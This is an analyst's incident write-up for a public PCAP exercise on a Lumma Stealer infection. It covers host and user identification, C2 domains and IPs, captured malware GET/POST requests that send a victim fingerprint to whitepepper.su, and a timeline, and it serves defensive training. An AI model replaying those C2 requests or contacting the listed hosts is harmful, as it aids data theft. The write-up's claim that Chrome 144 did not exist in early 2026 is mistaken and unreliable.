**Date completed:** 10th August 2026

**Exercise source:** malware-traffic-analysis.net, 2026-01-31 "Lumma in the Room-ah"

**Malware family:** Lumma Stealer (LummaC2)

**PCAP file:** 2026-01-31-traffic-analysis-exercise.pcap

> **Note on PCAP distribution:** The packet capture is not included in this repository. It contains real malicious traffic from a live infection and is kept out as a deliberate best practice. The exercise is publicly available at malware-traffic-analysis.net for anyone who wants to replicate this analysis.

---

## Case Brief

**Alert source:** SIEM signature hit for ET MALWARE Lumma Stealer Victim Fingerprinting Activity

**Alert detail:** Traffic from internal host to 153.92.1[.]49 over TCP port 80

**Activity start:** 2026-01-27 at 23:05 UTC

**Task:** Identify the infected host, identify the triggering domain, and produce a full incident report

**Environment provided:**

| Field | Value |
|---|---|
| LAN segment | 10.1.21.0/24 |
| Domain | win11office.com |
| AD environment | WIN11OFFICE |
| Domain controller | 10.1.21.2, WIN-LU4L24X3UB7 |
| Gateway | 10.1.21.1 |
| Broadcast | 10.1.21.255 |

---

## Six Required Questions: Confirmed Answers

| Question | Answer |
|---|---|
| Infected client IP | 10.1.21.58 |
| Infected client MAC | 00:21:5d:c8:0e:f2 (Intel NIC) |
| Hostname | DESKTOP-ES9F3ML (FQDN: DESKTOP-ES9F3ML.win11office.com) |
| Username | gwyatt |
| Full name | Gabriel Wyatt |
| Alert C2 domain | whitepepper.su (resolving to 153.92.1[.]49) |

---

## Investigation Methodology

**Tools used:** Wireshark, malware-traffic-analysis.net exercise page, VirusTotal

**Approach:**
1. Read alert context and scenario before opening the PCAP
2. Initial triage using Statistics > Conversations to identify the top internal talker
3. Host identification via DHCP, Kerberos, and SAMR
4. DNS investigation to map C2 infrastructure and rule out tunneling
5. HTTP investigation to extract fingerprinting payload and C2 registration behavior
6. TLS investigation to identify encrypted C2 channels via SNI
7. IOC collection and timeline construction
8. Remediation planning

---

## Stage 1: Host Identification

**Total capture:** 51,181 frames over approximately 10.3 hours



### IP and MAC Address

**Filter:** `ip.addr == 153.92.1.49`
Focused on Frame 23727 with the Ethernet II header expanded.



The source MAC address `00:21:5d:c8:0e:f2` belongs to an Intel NIC and identifies the internal host at 10.1.21.58. The destination MAC `00:04:c1:be:8c:d4` is a Cisco device and is the local network gateway, not the remote C2 server. For any external IP, the destination MAC in the Ethernet frame is always the next hop router on the local network. The actual MAC of a remote server is never visible in a local packet capture.

### Hostname

**Filter:** `dhcp`
Focused on Frame 3, a DHCP Request from the victim host.



The DHCP Request in Frame 3 reveals the host identity before an IP address is even assigned:

- **DHCP Option 12 (Hostname):** DESKTOP-ES9F3ML
- **DHCP Option 81 (FQDN):** DESKTOP-ES9F3ML.win11office.com

### Username

**Filter:** `kerberos.CNameString`
Focused on Frame 222, a Kerberos AS-REQ from 10.1.21.58 to DC 10.1.21.2.



The Kerberos Authentication Service Request contains `cname-string: gwyatt` and `realm: WIN11OFFICE`, confirming the domain account authenticating from the infected machine.

### Full Name: SAMR QueryUserInfo

**Method:** Added CNameString as a Wireshark column, cleared all filters, then used Ctrl+F > Packet Details > String > Case Sensitive. Searched "Wyatt" based on the assumption that gwyatt maps to a surname of Wyatt.



Frame 358 is a SAMR QueryUserInfo Response packet. The full name field returned: **Gabriel Wyatt**. The Security Account Manager Remote Protocol (SAMR) is used by Windows to query Active Directory user account information. This packet appeared in the capture because an AD lookup occurred for this account, and the response carried the display name in plaintext.

The Kerberos AS-REQ gives the username. The SAMR response gives the full display name as it is stored in Active Directory. Together they build a complete victim profile from PCAP data alone.

### Alert Domain

**Method 1: HTTP Host header**
Filter: `http.request && ip.addr == 153.92.1.49`
Frame 24500 shows a GET request to `/api/set_agent` with a Host header of `whitepepper.su`

**Method 2: DNS A record**
Filter: `dns`
Frame 23815 shows an A record response: `whitepepper.su` resolving to `153.92.1[.]49`

Both methods confirm the same answer independently. Cross-referencing DNS resolution against HTTP Host headers is good analyst practice. If the two do not match it can point to DNS spoofing or Host header manipulation.

---

## Stage 2: Initial Triage

**Statistics > Conversations > TCP tab, sorted by Bytes descending**



10.1.21.58 was immediately identified as the top internal talker. Two significant external conversations stood out:

---

## Stage 3: DNS Investigation

**Filter:** `ip.src == 10.1.21.58 && dns && !(dns.qry.name contains "win11office")`

This filter removes internal Active Directory domain queries and isolates only external DNS lookups from the infected host.



### Malicious Domains Resolved

| Domain                            | Resolved IP                   | Role                                                                        |
| --------------------------------- | ----------------------------- | --------------------------------------------------------------------------- |
| whitepepper.su                    | 153.92.1[.]49                 | Primary C2 panel, HTTP registration and TLS exfiltration                    |
| holiday-forever.cc                | resolved                      | Secondary C2 and TLS endpoint                                               |
| communicationfirewall-security.cc | resolved                      | Masquerade domain designed to appear legitimate                             |
| media.megafilehub4.lat            | resolved                      | Payload and module hosting                                                  |
| arch.filemegahab4.sbs             | resolved                      | Payload and module hosting                                                  |
| whooptm.cyou                      | 62.72.32.156                  | Additional C2 domain (frames 23669 to 23671)                                |
| hiyter.com                        | 104.21.22.231, 172.67.207.145 | Cloudflare-fronted, possible infection delivery chain (frames 2373 to 2377) |

All seven domains use TLDs associated with cybercrime activity: `.su` (Soviet Union ccTLD), `.cc` (Cocos Islands, commonly abused), `.lat`, `.sbs`, and `.cyou`. Five distinct malicious TLDs in a single capture is a strong indicator of domain rotation.

**Domain rotation:** Lumma Stealer spreads its C2 infrastructure across multiple domains and TLDs so that blocking one endpoint does not stop the operation. If a defender blocks `whitepepper.su`, the malware can still reach `holiday-forever.cc` or `whooptm.cyou`. This is a more layered infrastructure design than the single direct IP C2 used by NetSupport RAT in Investigation 1.

**`communicationfirewall-security.cc`:** This domain name is built to look like a legitimate security product or corporate firewall service. A quick human review of DNS logs might pass it as an internal security tool. The `.cc` TLD is the red flag here regardless of how legitimate the name looks.

### DNS Tunneling Check

**Filter:** `dns.qry.type == 16` (TXT records): zero results
**Filter:** `dns.qry.type == 10` (NULL records): zero results



All queries from the victim are standard A record lookups (type 1). No DNS tunneling detected. Lumma does not need DNS tunneling because it uses dedicated C2 domains with legitimate-looking HTTP and TLS sessions for data transfer.

---

## Stage 4: HTTP Investigation

**Filter:** `ip.src == 10.1.21.58 && http`

### Chrome Registration: Frame 24500



Frame 24500 shows the initial C2 registration request:

```
GET /api/set_agent?id=3BF67EC05320C5729578BE4C0ADF174C
                  &token=842e2802df0f0a06b4ed51f12f4387e761523b
                  &description=
                  &agent=Chrome
Host: whitepepper.su
Destination: 153.92.1.49:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/144.0.0.0 Safari/537.36
```

Three things stand out immediately:

- `/api/set_agent` is the Lumma Stealer C2 registration endpoint, a documented IOC for this malware family
- Bot ID `3BF67EC05320C5729578BE4C0ADF174C` is a unique identifier for this specific victim machine, used by the operator to track this host across sessions
- Chrome/144.0.0.0 does not exist. As of early 2026, Chrome's latest version was in the 130s. A User-Agent advertising a version that no real browser would report is a spoofing indicator

### Victim Fingerprinting Payload: POST /api/set_agent&act=log

**TCP Stream from Frame 24500 onwards**



Following the TCP stream shows an 8,023-byte POST body sent to `/api/set_agent?...&act=log`. This is the victim fingerprinting stage that triggered the original SIEM alert. The POST body contains a full hardware and browser profile of the infected machine:

| Fingerprint Field | Value Captured | Significance |
|---|---|---|
| Timestamp | 2026-01-27T23:05:40.634Z | Confirms alert time matches capture |
| Platform | Win32 | OS architecture |
| CPU threads | 12 (hardwareConcurrency) | Hardware profile for sandbox evasion |
| GPU | AMD Radeon R9 200 Series (Direct3D11) | Specific GPU model sent to C2 |
| Screen resolution | 1920x1080 | Display profile |
| Color depth | 24-bit | Display fingerprint |
| Canvas fingerprint | base64 encoded PNG | Anti-sandbox check, explained below |
| Audio profile | sampleRate 48000, maxChannelCount 2 | Audio hardware fingerprint |
| Installed fonts | 14 fonts including Arial, Impact, Verdana | Font enumeration |
| Network type | 4g, rtt 100, downlink 1.55 | Connection quality data |
| WebDriver | false | Anti-automation check |

**Canvas fingerprinting:** The canvas fingerprint is an HTML5 rendering test that generates a unique image based on how the machine's GPU and graphics drivers render shapes and text. A real physical machine produces a unique image. A sandbox running a generic renderer produces a predictable, generic result. Lumma sends this to the C2 server and if the result matches known sandbox signatures, the C2 may stop communicating entirely to avoid analysis. This is why fingerprinting happens before any credential theft.

**WebDriver: false** serves the same purpose. Automated browser analysis tools set the `webdriver` property to true. Lumma checks this and can abort if it detects automation. The `false` value here confirms Lumma verified it was running in a real user browser before sending the full payload.

### Edge Registration: Frame 25270



Frame 25270 shows a second registration to the same endpoint, this time with `agent=Edge`:

```
GET /api/set_agent?id=3BF67EC05320C5729578BE4C0ADF174C&...&agent=Edge
POST /api/set_agent?...&agent=Edge&act=log
```

The same Bot ID was used, but Lumma registered Chrome and Edge as separate agents to the C2 panel. This means the malware profiled both browser vaults on its own: saved passwords, cookies, browsing history, and session tokens from both browsers registered as separate data sources for the operator.

### File Export Check

**File > Export Objects > HTTP**

Only `application/x-www-form-urlencoded`, `text/plain`, and `application/json` entries appeared. No executable payloads found. This confirms the capture covers the active fingerprinting and registration phase. The initial payload drop that delivered Lumma to this machine happened before the capture window began.



---

## Stage 5: TLS Investigation

**Filter:** `ip.src == 10.1.21.58 && tls.handshake.type == 1`



Unlike Investigation 1 where `ip.addr == 45.131.214.85 && tls` returned zero results, the same filter here returns many results. The primary C2 server at 153.92.1[.]49 runs on both port 80 and port 443 at the same time, using each channel for different purposes.

**SNI fields confirmed from Client Hello packets:**

| Frame | SNI | Port | Purpose |
|---|---|---|---|
| 25410 | whitepepper.su | 443 | Primary C2, encrypted follow-on sessions |
| 27839 | holiday-forever.cc | 443 | Secondary C2 endpoint |
| 28013 | communicationfirewall-security.cc | 443 | Masquerade C2 domain |
| confirmed | whooptm.cyou | 443 | Additional C2 domain |
| confirmed | media.megafilehub4.lat | 443 | Module hosting |

`whitepepper.su` appears 16 times in TLS Client Hello packets from the victim, 16 separate encrypted sessions with the primary C2 server across the capture.

**Dual channel C2 architecture:**

| Channel | Port | Protocol | Purpose |
|---|---|---|---|
| Initial registration | 80 | Plain HTTP | Bot registration, victim fingerprinting, browser profiling |
| Follow-on sessions | 443 | TLS 1.3 | Credential exfiltration over an encrypted channel |

The fingerprinting data sent over plain HTTP is not sensitive on its own. It looks similar to what a legitimate analytics service might collect. The credential data that comes after it travels encrypted, which is what the operator actually values and wants to protect in transit.

---

## IOC Table

| Indicator | Type | Assessment |
|---|---|---|
| 153.92.1[.]49 | IPv4 | Primary C2 server |
| whitepepper.su | FQDN | Primary C2 domain (.su TLD) |
| holiday-forever.cc | FQDN | Secondary C2 and TLS endpoint |
| communicationfirewall-security.cc | FQDN | Masquerade C2 domain (.cc TLD) |
| media.megafilehub4.lat | FQDN | Payload and module hosting |
| arch.filemegahab4.sbs | FQDN | Payload and module hosting |
| whooptm.cyou | FQDN | Additional C2 domain (.cyou TLD) |
| hiyter.com | FQDN | Possible delivery or redirect domain |
| /api/set_agent | HTTP URI | Bot registration and profiling endpoint |
| 3BF67EC05320C5729578BE4C0ADF174C | Bot ID | Unique victim machine identifier assigned by C2 |
| 842e2802df0f0a06b4ed51f12f4387e761523b | Auth token | C2 session authentication token |
| Mozilla/5.0...Chrome/144.0.0.0 | User-Agent | Spoofed non-existent Chrome version |
| 00:21:5d:c8:0e:f2 | MAC address | Victim host hardware interface (Intel NIC) |

---

## Incident Timeline

| Time | Frame | Event |
|---|---|---|
| Capture start | 1 to 4 | DHCP handshake, host assigned 10.1.21.58 |
| ~0.00s | 3 | DHCP Request confirms DESKTOP-ES9F3ML.win11office.com |
| ~0.19s | 5 | NBNS registration for DESKTOP-ES9F3ML |
| Early session | 214 | First Kerberos AS-REQ, gwyatt begins AD authentication |
| Early session | 222 | Kerberos AS-REQ confirmed, TGT issued to gwyatt in WIN11OFFICE |
| Early session | 358 | SAMR QueryUserInfo response, Gabriel Wyatt full name confirmed |
| Early session | 2373 | DNS query for hiyter.com, possible infection delivery domain |
| Early session | 2400 | DNS query for media.megafilehub4.lat |
| Early session | 2768 | DNS query for arch.filemegahab4.sbs |
| ~23:04 UTC | 23669 | DNS query for whooptm.cyou resolves to 62.72.32.156 |
| ~23:04 UTC | 23721 | DNS query for whitepepper.su resolves to 153.92.1[.]49 |
| ~23:04 UTC | 23724 | TCP SYN from 10.1.21.58:56198 to 153.92.1[.]49:443 |
| ~23:04 UTC | 23727 | TCP session established, TLS channel open |
| 23:05:40 UTC | 24500 | GET /api/set_agent, Chrome browser registered to C2 panel |
| 23:05:40 UTC | 24601 | POST /api/set_agent&act=log, 8,023 byte fingerprint exfiltrated |
| ~23:05 UTC | 25270 | GET /api/set_agent, Edge browser registered as separate agent |
